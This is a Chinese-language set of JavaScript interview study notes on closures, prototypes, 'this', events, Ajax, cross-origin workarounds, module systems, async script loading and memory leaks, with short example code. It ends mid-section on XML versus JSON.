

# 三、JavaScript 相关

<script setup>
  import demo20 from './case/20-1.vue'
</script>

### 1 闭包

- 闭包就是能够读取其他函数内部变量的函数

- 闭包是指有权访问另一个函数作用域中变量的函数，创建闭包的最常见的方式就是在一个函数内创建另一个函数，通过另一个函数访问这个函数的局部变量, 利用闭包可以突破作用链域

- **闭包的特性：**

  - 函数内再嵌套函数
  - 内部函数可以引用外层的参数和变量
  - 参数和变量不会被垃圾回收机制回收

**说说你对闭包的理解**

- 使用闭包主要是为了设计私有的方法和变量。闭包的优点是可以避免全局变量的污染，缺点是闭包会常驻内存，会增大内存使用量，使用不当很容易造成内存泄露。在 js 中，函数即闭包，只有函数才会产生作用域的概念

- 闭包
  的最大用处有两个，一个是可以读取函数内部的变量，另一个就是让这些变量始终保持在内存中

- 闭包的另一个用处，是封装对象的私有属性和私有方法

- **好处**：能够实现封装和缓存等；

- **坏处**：就是消耗内存、不正当使用会造成内存溢出的问题

**使用闭包的注意点**

- 由于闭包会使得函数中的变量都被保存在内存中，内存消耗很大，所以不能滥用闭包，否则会造成网页的性能问题，在 IE 中可能导致内存泄露
- 解决方法是，在退出函数之前，将不使用的局部变量全部删除

**举出闭包实际场景运用的例子**

1.  比如常见的防抖节流

```js
// 防抖
function debounce(fn, delay = 300) {
  let timer; //闭包引用的外界变量
  return function () {
    const args = arguments;
    if (timer) {
      clearTimeout(timer);
    }
    timer = setTimeout(() => {
      fn.apply(this, args);
    }, delay);
  };
}
```

2.  使用闭包可以在 `JavaScript` 中模拟块级作用域

```js
function outputNumbers(count) {
  (function () {
    for (var i = 0; i < count; i++) {
      alert(i);
    }
  })();
  alert(i); //导致一个错误！
}
```

3.  闭包可以用于在对象中创建私有变量

```js
var aaa = (function () {
  var a = 1;

  function bbb() {
    a++;
    console.log(a);
  }

  function ccc() {
    a++;
    console.log(a);
  }
  return {
    b: bbb, //json结构
    c: ccc,
  };
})();
console.log(aaa.a); //undefined
aaa.b(); //2
aaa.c(); //3
```

### 2 说说你对作用域链的理解

- 作用域链是一种用于查找变量和函数的机制，它是由当前执行环境和其所有父级执行环境的变量对象组成的链式结构。当在一个执行环境中访问变量或函数时，会首先在当前执行环境的变量对象中查找，如果找不到，则会沿着作用域链向上查找，直到找到对应的变量或函数，或者达到最外层的全局对象（如`window`）。
- 作用域链的创建是在函数定义时确定的，它与函数的定义位置有关。当函数被调用时，会创建一个新的执行环境，其中包含一个新的变量对象，并将其添加到作用域链的前端。这样，函数内部就可以访问其所在作用域以及其外部作用域中的变量和函数，形成了一个作用域链。

以下是一个示例，展示了作用域链的工作原理：

```js
function outer() {
  var outerVar = 'Outer variable';

  function inner() {
    var innerVar = 'Inner variable';
    console.log(innerVar); // 内部作用域的变量
    console.log(outerVar); // 外部作用域的变量
    console.log(globalVar); // 全局作用域的变量
  }

  inner();
}

var globalVar = 'Global variable';
outer();
```

在上述示例中，函数 `inner()` 内部可以访问到其外部函数 `outer()` 中定义的变量 `outerVar` ，这是因为 `inner()` 的作用域链中包含了外部函数的变量对象。同样， `inner()` 也可以访问全局作用域中的变量 `globalVar` ，因为全局作用域也在作用域链中。

通过作用域链的机制，函数可以访问外部作用域中的变量，但外部作用域不能访问函数内部的变量，这就实现了变量的封装和保护。

值得注意的是，当函数执行完毕后，其执行环境会被销毁，对应的变量对象也会被释放，因此作用域链也随之消失。这也是闭包的概念中所提到的保持变量的生命周期的特性。

**总结**

- 作用域链的作用是保证执行环境里有权访问的变量和函数是有序的，作用域链的变量只能向上访问，变量访问到`window`对象即被终止，作用域链向下访问变量是不被允许的
- 简单的说，`作用域就是变量与函数的可访问范围`，即作用域控制着变量与函数的可见性和生命周期

### 3 JavaScript 原型，原型链 ? 有什么特点？

- 每个对象都会在其内部初始化一个属性，就是`__proto__`，当我们访问一个对象的属性时
- 如果这个对象内部不存在这个属性，那么他就会去`__proto__`里找这个属性，这个`__proto__`又会有自己的`__proto__`，于是就这样一直找下去，也就是我们平时所说的原型链的概念。按照标准，`__proto__`
  是不对外公开的，也就是说是个私有属性

- 关系：`instance.constructor.prototype == instance.__proto__`

```js
// eg.
var a = {};

a.constructor.prototype == a.__proto__;
```

- 特点：

  - `JavaScript`对象是通过引用来传递的，我们创建的每个新对象实体中并没有一份属于自己的原型副本。当我们修改原型时，与之相关的对象也会继承这一改变

- 当我们需要一个属性的时，`Javascript`引擎会先看当前对象中是否有这个属性，
  如果没有的

- 就会查找他的`Prototype`对象是否有这个属性，如此递推下去，一直检索到
  `Object` 内建对象

- **原型：**

      -   `JavaScript`的所有对象中都包含了一个 `[__proto__]`
          内部属性，这个属性所对应的就是该对象的原型

      -   JavaScript的函数对象，除了原型 `[__proto__]` 之外，还预置了

  `prototype` 属性

      -   当函数对象作为构造函数创建实例时，该 prototype
          属性值将被作为实例对象的原型 `[__proto__]` 。

- **原型链：**

      -   当一个对象调用的属性/方法自身不存在时，就会去自己 `[__proto__]`
          关联的前辈 `prototype` 对象上去找

      -   如果没找到，就会去该 `prototype` 原型 `[__proto__]` 关联的前辈

  `prototype` 去找。依次类推，直到找到属性/方法或 `undefined`

          为止。从而形成了所谓的"原型链"

- **原型特点：**

  - `JavaScript`对象是通过引用来传递的，当修改原型时，与之相关的对象也会继承这一改变

### 4 请解释什么是事件代理

- 事件代理（`Event Delegation`），又称之为事件委托。是 `JavaScript`
  中常用绑定事件的常用技巧。顾名思义，"事件代理"即是把原本需要绑定的事件委托给父元素，让父元素担当事件监听的职务。 `事件代理的原理是DOM元素的事件冒泡` 。使用事件代理的好处是可以提高性能

- 可以大量节省内存占用，减少事件注册，比如在`table`上代理所有`td`的`click`事件就非常棒
- 可以实现当新增子对象时无需再次对其绑定

下面是一个简单的事件代理的示例代码：

```html
<ul id="myList">
  <li>Item 1</li>
  <li>Item 2</li>
  <li>Item 3</li>
</ul>
```

```js
// 使用事件代理绑定点击事件
var myList = document.getElementById('myList');
myList.addEventListener('click', function (event) {
  if (event.target.tagName === 'LI') {
    console.log('Clicked on:', event.target.textContent);
  }
});
```

在上述示例中，我们将点击事件绑定到父元素 `myList` 上，当点击子元素 `li`

时，事件会冒泡到父元素，父元素上的事件处理函数会捕获到事件，并根据
`event.target`

来判断点击的具体元素。这样就实现了对子元素点击事件的代理处理。

使用事件代理的优势是可以减少事件处理程序的数量，尤其适用于大量的子元素或动态添加的元素，避免了为每个子元素都绑定事件处理程序的麻烦。同时，对于新增的子元素，无需再次绑定事件，它们会自动继承父元素上的事件处理。

需要注意的是，在事件代理中，我们需要通过 `event.target`

来判断具体触发事件的元素，从而执行相应的逻辑。

### 5 Javascript 如何实现继承？

在 JavaScript
中，实现继承的方式有多种，包括 `构造继承` 、 `原型继承` 、 `实例继承` 和 `拷贝继承` 等。其中，使用 `构造函数与原型混合方式是较常用和推荐的方式` 。

**以下是使用构造函数与原型混合方式实现继承的示例代码：**

```js
function Parent() {
  this.name = 'poetry';
}

function Child() {
  this.age = 28;
}

// 使用构造函数继承
Child.prototype = new Parent();
Child.prototype.constructor = Child;

var demo = new Child();
console.log(demo.age); // 输出: 28
console.log(demo.name); // 输出: poetry
console.log(demo.constructor); // 输出: Child
```

通过将 `Child.prototype` 设置为 `new Parent()` ，子类 `Child` 继承了父类
`Parent` 的属性和方法。然后，通过手动将 `Child.prototype.constructor`

设置为 `Child` ，确保子类的构造函数指向自身。

这样， `demo.constructor` 的输出将是 `Child` ，表示 `demo`

实例的构造函数是 `Child` ，以确保子类的实例通过 `constructor`

属性可以准确地识别其构造函数。

### 6 谈谈 This 对象的理解

- **在全局作用域中**，`this` 指向全局对象（在浏览器环境中通常是
  `window` 对象）。

- **在函数中**，`this` 的值取决于函数的调用方式。 - 如果函数是作为对象的方法调用，`this` 指向调用该方法的对象。 - 如果函数是作为普通函数调用，`this`
  指向全局对象（非严格模式下）或 `undefined` （严格模式下）。

      -   如果函数是通过 `call`、`apply` 或 `bind` 方法调用，`this` 指向

  `call` 、 `apply` 或 `bind` 方法的第一个参数所指定的对象。

      -   如果函数是作为构造函数调用（使用 `new` 关键字），`this`
          指向新创建的对象。

- **在箭头函数中**，`this`
  的值是继承自外部作用域的，它不会因为调用方式的改变而改变。

下面是一些示例代码，以说明 `this` 的不同情况：

```js
// 全局作用域中的 this
console.log(this); // 输出: Window

// 对象方法中的 this
const obj = {
  name: 'poetry',
  sayHello: function () {
    console.log(`Hello, ${this.name}!`);
  },
};
obj.sayHello(); // 输出: Hello, poetry!

// 普通函数调用中的 this
function greeting() {
  console.log(`Hello, ${this.name}!`);
}
greeting(); // 输出: Hello, undefined (非严格模式下输出: Hello, [全局对象的某个属性值])

// 使用 call/apply/bind 改变 this
const person = {
  name: 'poetry',
};
greeting.call(person); // 输出: Hello, poetry!
greeting.apply(person); // 输出: Hello, poetry!
const boundGreeting = greeting.bind(person);
boundGreeting(); // 输出: Hello, poetry!

// 构造函数中的 this
function Person(name) {
  this.name = name;
}
const poetry = new Person('poetry');
console.log(poetry.name); // 输出: poetry

// 箭头函数中的 this
const arrowFunc = () => {
  console.log(this);
};
arrowFunc(); // 输出: Window
```

### 7 事件模型

事件流分为三个阶段：捕获阶段、目标阶段和冒泡阶段。

1.  **捕获阶段（Capture
    Phase）**：事件从最外层的父节点开始向下传递，直到达到目标元素的父节点。在捕获阶段，事件会经过父节点、祖父节点等，但不会触发任何事件处理程序。

2.  **目标阶段（Target
    Phase）**：事件到达目标元素本身，触发目标元素上的事件处理程序。如果事件有多个处理程序绑定在目标元素上，它们会按照添加的顺序依次执行。

3.  **冒泡阶段（Bubble
    Phase）**：事件从目标元素开始向上冒泡，传递到父节点，直到传递到最外层的父节点或根节点。在冒泡阶段，事件会依次触发父节点、祖父节点等的事件处理程序。

事件流的默认顺序是从目标元素的最外层父节点开始的捕获阶段，然后是目标阶段，最后是冒泡阶段。但是可以通过事件处理程序的绑定顺序来改变事件处理的执行顺序。

例如，以下代码演示了事件流的执行顺序：

```html
<div id="outer">
  <div id="inner">
    <button id="btn">Click me</button>
  </div>
</div>
```

```js
var outer = document.getElementById('outer');
var inner = document.getElementById('inner');
var btn = document.getElementById('btn');

outer.addEventListener(
  'click',
  function () {
    console.log('Outer div clicked');
  },
  true
); // 使用捕获阶段进行事件监听

inner.addEventListener(
  'click',
  function () {
    console.log('Inner div clicked');
  },
  false
); // 使用冒泡阶段进行事件监听

btn.addEventListener(
  'click',
  function () {
    console.log('Button clicked');
  },
  false
); // 使用冒泡阶段进行事件监听
```

当点击按钮时，事件的执行顺序如下：

1.  捕获阶段：触发外层 div 的捕获事件处理程序。
2.  目标阶段：触发按钮的事件处理程序。
3.  冒泡阶段：触发内层 div 的冒泡事件处理程序。

输出结果为：

```
Outer div clicked
  Button clicked
  Inner div clicked

```

这个示例展示了事件流中捕获阶段、目标阶段和冒泡阶段的执行顺序。

> 可以通过 `addEventListener` 方法的第三个参数来控制事件处理函数在捕获阶段或冒泡阶段执行， `true` 表示捕获阶段， `false` 或不传表示冒泡阶段。

### 8 new 操作符具体干了什么呢?

- 创建一个空对象，并且 `this` 变量引用该对象，同时还继承了该函数的原型
- 属性和方法被加入到 `this` 引用的对象中
- 新创建的对象由 `this` 所引用，并且最后隐式的返回 `this`

**实现一个简单的 `new` 方法，可以按照以下步骤进行操作：**

1.  创建一个新的空对象。
2.  将新对象的原型链接到构造函数的原型对象。
3.  将构造函数的作用域赋给新对象，以便在构造函数中使用 `this`
    引用新对象。

4.  执行构造函数，并将参数传递给构造函数。
5.  如果构造函数没有显式返回一个对象，则返回新对象。

```js
function myNew(constructor, ...args) {
  // 创建一个新的空对象
  const newObj = {};

  // 将新对象的原型链接到构造函数的原型对象
  Object.setPrototypeOf(newObj, constructor.prototype);

  // 将构造函数的作用域赋给新对象，并执行构造函数
  const result = constructor.apply(newObj, args);

  // 如果构造函数有显式返回一个对象，则返回该对象；否则返回新对象
  return typeof result === 'object' && result !== null ? result : newObj;
}
```

使用上述自定义的 `myNew` 方法，可以实现与 `new`

操作符类似的效果，如下所示：

```js
function Person(name, age) {
  this.name = name;
  this.age = age;
}

Person.prototype.sayHello = function () {
  console.log('Hello, my name is ' + this.name);
};

var poetry = myNew(Person, 'poetry', 25);
console.log(poetry.name); // 输出: poetry
console.log(poetry.age); // 输出: 25
poetry.sayHello(); // 输出: Hello, my name is poetry
```

注意，这只是一个简化的实现，不考虑一些复杂的情况，例如原型链的继承和构造函数返回对象的情况。在实际应用中，建议使用内置的
`new` 操作符来创建对象实例，因为它处理了更多的细节和边界情况。

### 9 Ajax 原理

- `Ajax`的原理简单来说是在用户和服务器之间加了---个中间层(`AJAX`引擎)，通过`XmlHttpRequest`对象来向服务器发异步请求，从服务器获得数据，然后用`javascrip`t 来操作`DOM`而更新页面。使用户操作与服务器响应异步化。这其中最关键的一步就是从服务器获得请求数据
- `Ajax`的过程只涉及`JavaScript`、`XMLHttpRequest`和`DOM`。`XMLHttpRequest`是`ajax`的核心机制

```js
// 手写简易ajax
/** 1. 创建连接 **/
var xhr = null;
xhr = new XMLHttpRequest();
/** 2. 连接服务器 **/
xhr.open('get', url, true);
/** 3. 发送请求 **/
xhr.send(null);
/** 4. 接受请求 **/
xhr.onreadystatechange = function () {
  if (xhr.readyState == 4) {
    if (xhr.status == 200) {
      success(xhr.responseText);
    } else {
      /** false **/
      fail && fail(xhr.status);
    }
  }
};
```

```js
// promise封装
function ajax(url) {
  const p = new Promise((resolve, reject) => {
    const xhr = new XMLHttpRequest();
    xhr.open('GET', url, true);
    xhr.onreadystatechange = function () {
      if (xhr.readyState === 4) {
        if (xhr.status === 200) {
          resolve(JSON.parse(xhr.responseText));
        } else if (xhr.status === 404 || xhr.status === 500) {
          reject(new Error('404 not found'));
        }
      }
    };
    xhr.send(null);
  });
  return p;
}
```

```js
// 测试
const url = '/data/test.json';
ajax(url)
  .then((res) => console.log(res))
  .catch((err) => console.error(err));
```

**ajax 有那些优缺点?**

- 优点：
  - 通过异步模式，提升了用户体验.
  - 优化了浏览器和服务器之间的传输，减少不必要的数据往返，减少了带宽占用.
  - `Ajax`在客户端运行，承担了一部分本来由服务器承担的工作，减少了大用户量下的服务器负载。
  - `Ajax`可以实现动态不刷新（局部刷新）
- 缺点：
  - 安全问题 `AJAX`暴露了与服务器交互的细节。
  - 对搜索引擎的支持比较弱。
  - 不容易调试。

### 10 如何解决跨域问题?

> 首先了解下浏览器的同源策略
> 同源策略 `/SOP（Same origin policy）` 是一种约定，由 Netscape 公司 1995 年引入浏览器，它是浏览器最核心也最基本的安全功能，如果缺少了同源策略，浏览器很容易受到 `XSS` 、 `CSRF` 等攻击。所谓同源是指\"**协议+域名+端口**\"三者相同，即便两个不同的域名指向同一个 ip 地址，也非同源

**1. 通过 jsonp 跨域**

封装一个可用的 JSONP 方法，可以参考以下示例代码：

```js
function jsonp(url, params, callback) {
  // 生成唯一的回调函数名
  const callbackName = 'jsonp_' + Date.now();

  // 将参数拼接到 URL 中
  const queryString = Object.keys(params)
    .map(
      (key) => encodeURIComponent(key) + '=' + encodeURIComponent(params[key])
    )
    .join('&');

  // 创建 script 元素
  const script = document.createElement('script');
  script.src = url + '?' + queryString + '&callback=' + callbackName;

  // 定义回调函数
  window[callbackName] = function (data) {
    // 调用回调函数
    callback(data);

    // 删除 script 元素和回调函数
    document.head.removeChild(script);
    delete window[callbackName];
  };

  // 将 script 元素添加到页面中
  document.head.appendChild(script);
}
```

使用示例：

```js
jsonp(
  'http://www.example.com/api',
  {
    user: 'admin',
  },
  function (data) {
    console.log(data);
  }
);
```

这个 `jsonp`

函数接受三个参数：URL、参数对象和回调函数。它会生成一个唯一的回调函数名，并将参数拼接到
URL 中。然后创建一个 `<script>` 元素，并将 URL 设置为带有回调函数名的
URL。定义一个全局的回调函数，当响应返回时调用该回调函数，并将数据传递给回调函数。最后将
`<script>` 元素添加到页面中，触发跨域请求。当请求完成后，删除 `<script>`

元素和回调函数。

这样，你就可以通过封装的 JSONP 方法来实现跨域请求并获取响应数据了。

**2. document.domain + iframe 跨域**

> 自 `Chrome 101` 版本开始， `document.domain`

> 将变为可读属性，也就是意味着上述这种跨域的方式被禁用了

> 此方案仅限主域相同，子域不同的跨域应用场景

1.）父窗口：(http://www.domain.com/a.html)

```html
<iframe id="iframe" src="http://child.domain.com/b.html"></iframe>
<script>
  document.domain = 'domain.com';
  var user = 'admin';
</script>
```

2.）子窗口：(http://child.domain.com/b.html)

```js
document.domain = 'domain.com';
// 获取父窗口中的变量
alert('get js data from parent ---> ' + window.parent.user);
```

**3. nginx 代理跨域**

通过 Nginx
配置反向代理，将跨域请求转发到同源接口，从而避免浏览器的同源策略限制。

下面是一个示例配置，展示了如何通过 Nginx 实现跨域代理：

```nginx
server {

    listen 80;
    server_name your-domain.com;

    location /api {
      # 设置代理目标地址
      proxy_pass http://api.example.com;

      # 设置允许的跨域请求头
      add_header Access-Control-Allow-Origin $http_origin;
      add_header Access-Control-Allow-Methods "GET, POST, OPTIONS";
      add_header Access-Control-Allow-Credentials true;
      add_header Access-Control-Allow-Headers "Origin, X-Requested-With, Content-Type, Accept";

      # 处理预检请求（OPTIONS 请求）
      if ($request_method = OPTIONS) {
        return 200;
      }
    }

  }

```

在上面的示例中，假设你的域名是 `your-domain.com`，需要代理访问
`api.example.com`。你可以将这个配置添加到 Nginx 的配置文件中。

这个配置会将 `/api` 路径下的请求代理到
`http://api.example.com`。同时，通过添加 `Access-Control-Allow-*`
头部，允许跨域请求的来源、方法、头部等。

这样，当你在前端发送请求到 `/api` 路径时，Nginx 会将请求代理到
`http://api.example.com`，并在响应中添加跨域相关的头部，从而解决跨域问题。注意要根据实际情况进行配置，包括监听的端口、域名和代理的目标地址等。

**4. nodejs 中间件代理跨域**

使用 Node.js
构建一个中间件，在服务器端代理请求，将跨域请求转发到同源接口，然后将响应返回给前端。

可以使用 `http-proxy-middleware`
模块来创建一个简单的代理服务器。下面是一个示例代码：

```js
const express = require('express');
const { createProxyMiddleware } = require('http-proxy-middleware');

const app = express();

// 创建代理中间件
const apiProxy = createProxyMiddleware('/api', {
  target: 'http://api.example.com', // 设置代理目标地址
  changeOrigin: true, // 修改请求头中的 Origin 为目标地址
  pathRewrite: {
    '^/api': '', // 重写请求路径，去掉 '/api' 前缀
  },
  // 可选的其他配置项...
});

// 将代理中间件应用到 '/api' 路径
app.use('/api', apiProxy);

// 启动服务器
app.listen(3000, () => {
  console.log('Proxy server is running on port 3000');
});
```

在上面的示例中，首先使用 `express` 框架创建一个服务器实例。然后，使用
`http-proxy-middleware` 模块创建一个代理中间件。通过配置代理中间件的
`target` 选项，将请求代理到目标地址 `http://api.example.com` 。

你可以通过其他可选的配置项来进行更多的定制，例如修改请求头、重写请求路径等。在这个示例中，我们将代理中间件应用到路径
`/api` 下，即当请求路径以 `/api` 开头时，会被代理到目标地址。

最后，启动服务器并监听指定的端口（这里是 3000）。

请确保你已经安装了 `express` 和 `http-proxy-middleware`

模块，并将上述代码保存为一个文件（例如 `proxy-server.js` ）。然后通过运行
`node proxy-server.js` 来启动代理服务器。

现在，当你在前端发送请求到 `/api` 路径时，Node.js
代理服务器会将请求转发到
`http://api.example.com` ，从而实现跨域访问。记得根据实际情况修改目标地址和端口号。

**5. 后端在头部信息里面设置安全域名**

后端可以在响应的头部信息中设置 `Access-Control-Allow-Origin`

字段，指定允许跨域访问的域名。例如，在 `Node.js` 中可以使用 `cors`

模块来实现：

```js
const express = require('express');
const cors = require('cors');

const app = express();

// 允许所有域名跨域访问
app.use(cors());

// 其他路由和逻辑处理...

app.listen(3000, () => {
  console.log('Server is running on port 3000');
});
```

**6. 通过 webpack devserver 代理**

使用 `webpack-dev-server`

的代理功能可以实现在开发过程中的跨域请求。你可以配置 `devServer`

对象中的 `proxy` 选项来设置代理。下面是一个示例配置：

```js
module.exports = {
  // 其他配置项...
  devServer: {
    proxy: {
      '/api': {
        target: 'http://api.example.com', // 设置代理目标地址
        pathRewrite: {
          '^/api': '',
        }, // 重写请求路径，去掉 '/api' 前缀
        changeOrigin: true, // 修改请求头中的 Origin 为目标地址
      },
    },
  },
};
```

在上面的示例中，我们配置了一个代理，将以 `/api` 开头的请求转发到
`http://api.example.com` 。通过 `pathRewrite`

选项，我们去掉了请求路径中的 `/api` 前缀，以符合目标地址的接口路径。

将上述配置添加到你的 `webpack.config.js` 文件中，然后启动
`webpack-dev-server` 。现在，当你在前端发送以 `/api`

开头的请求时， `webpack-dev-server`

会将请求转发到目标地址，并返回响应结果。

注意，这里的配置是针对开发环境下的代理，当你构建生产环境的代码时，代理配置不会生效。

请确保你已经安装了 `webpack-dev-server` ，并在你的 `package.json` 文件的
`scripts` 中添加启动命令，例如：

```json
{
  "scripts": {
    "start": "webpack-dev-server --open"
  }
}
```

运行 `npm start` 或 `yarn start` 来启动 `webpack-dev-server`。

这样，通过配置 `webpack-dev-server`
的代理，你就可以在开发过程中实现跨域请求。记得根据实际情况修改目标地址和请求路径。

**7. CORS（跨域资源共享）**

在服务端设置响应头部，允许特定的域名或所有域名访问该资源。可以通过在响应头部中设置
`Access-Control-Allow-Origin` 字段来指定允许访问的域名。

示例代码（`Node.js` + `Express`）：

```js
const express = require('express');
const app = express();

// 允许所有域名访问
app.use((req, res, next) => {
  res.setHeader('Access-Control-Allow-Origin', '*');
  next();
});

// 路由和处理逻辑
// ...

app.listen(3000, () => {
  console.log('Server is running on port 3000');
});
```

**8. WebSocket**

使用 WebSocket 协议进行通信，WebSocket
不受同源策略限制，因此可以在不同域之间进行双向通信。

示例代码（JavaScript）：

```js
const socket = new WebSocket('ws://example.com/socket');

socket.onopen = () => {
  console.log('WebSocket connection established.');
  // 发送数据
  socket.send('Hello, server!');
};

socket.onmessage = (event) => {
  console.log('Received message from server:', event.data);
};

socket.onclose = () => {
  console.log('WebSocket connection closed.');
};
```

**9. 代理服务器**

在同一域名下，前端通过发送请求给同域下的代理服务器，然后由代理服务器转发请求到目标服务器，并将响应返回给前端，实现跨域请求。

示例代码（Node.js + Express）：

```js
const express = require('express');
const axios = require('axios');
const app = express();

app.get('/api/data', (req, res) => {
  // 向目标服务器发送请求
  axios
    .get('http://api.example.com/data')
    .then((response) => {
      // 将目标服务器的响应返回给前端
      res.json(response.data);
    })
    .catch((error) => {
      res.status(500).json({
        error: 'An error occurred',
      });
    });
});

app.listen(3000, () => {
  console.log('Server is running on port 3000');
});
```

### 11 模块化开发怎么做？

当涉及模块化开发时，有多种方法可供选择：

**1. 立即执行函数模式：**

- 使用立即执行函数来创建模块，将私有成员放在函数作用域内，不直接暴露给外部。
- 通过返回一个包含公共方法的对象，使这些方法可以在外部访问。

```js
var module = (function () {
  var privateVar = 'Private Variable';

  function privateMethod() {
    console.log('This is a private method');
  }

  function publicMethod() {
    console.log('This is a public method');
  }

  return {
    publicMethod: publicMethod,
  };
})();

module.publicMethod(); // Output: This is a public method
```

**2. CommonJS：**

- 使用 `require` 导入模块，使用 `module.exports` 或 `exports`
  导出模块。

- 适用于 Node.js 环境。

```js
// math.js
function add(a, b) {
  return a + b;
}

function subtract(a, b) {
  return a - b;
}

module.exports = {
  add,
  subtract,
};
```

```js
// app.js
const math = require('./math');

console.log(math.add(2, 3)); // Output: 5
console.log(math.subtract(5, 2)); // Output: 3
```

**3. ES Modules：**

- 使用 `import` 导入模块，使用 `export` 导出模块。
- 适用于现代浏览器环境和支持 ES6 模块的工具链。

```js
// math.js
export function add(a, b) {
  return a + b;
}

export function subtract(a, b) {
  return a - b;
}
```

```js
// app.js
import { add, subtract } from './math';

console.log(add(2, 3)); // Output: 5
console.log(subtract(5, 2)); // Output: 3
```

**4. AMD（Asynchronous Module Definition）：**

- 使用 `define` 定义模块，通过异步加载模块。
- 适用于浏览器环境和需要按需加载模块的场景。

```js
// math.js
define([], function () {
  function add(a, b) {
    return a + b;
  }

  function subtract(a, b) {
    return a - b;
  }

  return {
    add,
    subtract,
  };
});
```

```js
// app.js
require(['math'], function (math) {
  console.log(math.add(2, 3)); // Output: 5
  console.log(math.subtract(5, 2)); // Output: 3
});
```

以上是常见的模块化开发方式，每种方式都有自己的特点和使用场景，可以根据具体需求选择适合的模块化规范。

### 12 异步加载 JS 的方式有哪些？

你提到的异步加载 JS
的方式都是常见且有效的方法。以下是对每种方式的简要介绍：

**1. 设置 `<script>` 属性 `async="async"` ：**

- 通过将`async`属性设置为`"async"`，脚本将异步加载并立即执行，不会阻塞页面的解析和渲染。
- 脚本加载完成后，将在页面中的任何位置立即执行。

```html
<script src="script.js" async="async"></script>
```

**2. 动态创建 `script DOM` ：**

- 使用 JavaScript 动态创建 `<script>` 元素，并将其添加到文档中。
- 通过设置 `src` 属性指定脚本的 URL，异步加载脚本。

```js
var script = document.createElement('script');
script.src = 'script.js';
document.head.appendChild(script);
```

**3. `XmlHttpRequest` 脚本注入：**

- 使用 `XmlHttpRequest` 对象加载脚本内容，并将其注入到页面中。
- 通过异步请求获取脚本内容后，使用 `eval()` 函数执行脚本。

```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'script.js', true);
xhr.onreadystatechange = function () {
  if (xhr.readyState === 4 && xhr.status === 200) {
    eval(xhr.responseText);
  }
};
xhr.send();
```

**4. 异步加载库 `LABjs` ：**

- `LABjs` 是一个用于异步加载 JavaScript 的库，可以管理和控制加载顺序。
- 它提供了简洁的 API 来定义和加载依赖关系，以及控制脚本加载的时机。

```js
$LAB.script('script1.js').wait().script('script2.js');
```

**5. 模块加载器 `Sea.js` ：**

- `Sea.js` 是一个用于 Web
  端模块化开发的加载器，可以异步加载和管理模块依赖关系。

- 它支持异步加载 JavaScript 模块，并在模块加载完成后执行回调函数。

```js
seajs.use(['module1', 'module2'], function (module1, module2) {
  // 执行依赖模块加载完成后的逻辑
});
```

**6. Deferred Scripts（延迟脚本）：**

- 使用 `<script>` 元素的 `defer`
  属性可以将脚本延迟到文档解析完成后再执行。

- 延迟脚本会按照它们在文档中出现的顺序执行，但在 `DOMContentLoaded`
  事件触发之前执行。

```html
<script src="script.js" defer></script>
```

**7. Dynamic Import（动态导入）：**

- 使用动态导入语法 `import()` 可以异步加载 JavaScript 模块。
- 这种方式返回一个 Promise 对象，可以通过 `then()`
  方法处理模块加载完成后的逻辑。

```js
import('module.js')
  .then((module) => {
    // 执行模块加载完成后的逻辑
  })
  .catch((error) => {
    // 处理加载失败的情况
  });
```

**8. Web Workers（Web 工作者）：**

- `Web Workers` 是运行在后台线程中的 JavaScript
  脚本，可以进行耗时操作而不会阻塞主线程。

- 可以使用 `Web Workers` 异步加载和执行 JavaScript
  脚本，以提高页面的响应性。

```js
var worker = new Worker('worker.js');
worker.onmessage = function (event) {
  // 处理从 Worker 返回的消息
};
worker.postMessage('start');
```

### 13 那些操作会造成内存泄漏？

> JavaScript
> 内存泄露指对象在不需要使用它时仍然存在，导致占用的内存不能使用或回收

- 未使用 `var` 声明的全局变量
- 闭包函数( `Closures` )
- 循环引用(两个对象相互引用)
- 控制台日志( `console.log` )
- 移除存在绑定事件的 `DOM` 元素( `IE` )
- `setTimeout` 的第一个参数使用字符串而非函数的话，会引发内存泄漏
- 垃圾回收器定期扫描对象，并计算引用了每个对象的其他对象的数量。如果一个对象的引用数量为

`0` （没有其他对象引用过该对象），或对该对象的惟一引用是循环的，那么该对象的内存即可回收

下面是一些常见操作可能导致内存泄漏的示例代码：

1.  未使用 `var` 声明的全局变量：

```js
function foo() {
  bar = 'global variable'; // 没有使用 var 声明
}
foo();
```

2.  闭包函数（Closures）：

```js
function outer() {
  var data = 'sensitive data';
  return function () {
    // 内部函数形成了闭包
    console.log(data);
  };
}
var inner = outer();
inner(); // 闭包引用了外部函数的变量，导致变量无法被释放
```

3.  循环引用：

```js
function createObjects() {
  var obj1 = {};
  var obj2 = {};
  obj1.ref = obj2;
  obj2.ref = obj1;
  // 对象之间形成循环引用，导致无法被垃圾回收
}
createObjects();
```

4.  控制台日志（`console.log`）：

```js
function processData(data) {
  console.log(data); // 控制台日志可能会引用数据，阻止垃圾回收
  // 处理数据的逻辑
}
```

5.  移除存在绑定事件的 DOM 元素（`IE`）：

```js
var element = document.getElementById('myElement');
element.onclick = function () {
  // 处理点击事件
};
// 移除元素时没有显式地解绑事件处理程序，可能导致内存泄漏（在 IE 浏览器中）
element.parentNode.removeChild(element);
```

6.  使用字符串作为 `setTimeout` 的第一个参数：

```js
setTimeout('console.log("timeout");', 1000);
// 使用字符串作为参数，会导致内存泄漏（不推荐）
```

注意：以上示例只是为了说明可能导致内存泄漏的操作，并非一定会发生内存泄漏。在实际开发中，需要注意避免这些操作或及时进行相应的内存管理和资源释放。

### 14 XML 和 JSON 的区别？

`XML` （可扩展标记语言）和 `JSON` （JavaScript 对象表示法）是两种常用的数据格式，它们在以下几个方面有一些区别：

1.  数据体积方面：

